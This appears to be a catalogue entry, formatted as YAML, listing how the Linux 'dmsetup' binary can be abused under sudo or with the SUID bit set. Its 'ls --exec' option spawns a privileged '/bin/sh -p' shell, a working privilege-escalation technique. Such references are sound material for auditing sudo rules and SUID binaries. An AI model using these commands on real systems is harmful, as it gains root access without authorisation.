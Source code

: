 ```yaml
---
functions:
  sudo:
    - code: |
        sudo dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        sudo dmsetup ls --exec '/bin/sh -p -s'
  suid:
    - code: |
        ./dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        ./dmsetup ls --exec '/bin/sh -p -s'
---
```

